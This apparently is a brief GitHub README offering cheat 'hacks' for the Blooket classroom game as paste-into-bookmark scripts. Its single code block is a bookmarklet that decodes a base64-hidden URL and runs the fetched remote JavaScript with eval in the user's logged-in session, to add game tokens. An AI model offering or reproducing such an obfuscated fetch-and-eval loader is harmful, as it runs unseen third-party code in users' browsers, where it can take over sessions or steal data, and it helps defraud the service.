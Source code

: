 # Blooket-hack-after-glixzzy
glixzzy stop making profit off school cheats



# Here are the big juicy hecks collection
these are all useful bookmarklets,paste them into bookmark, make sure javascript: are in the initial.
# add tokens!11!
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```
# sell dupe blooks!11111!111!!!!!!!!!
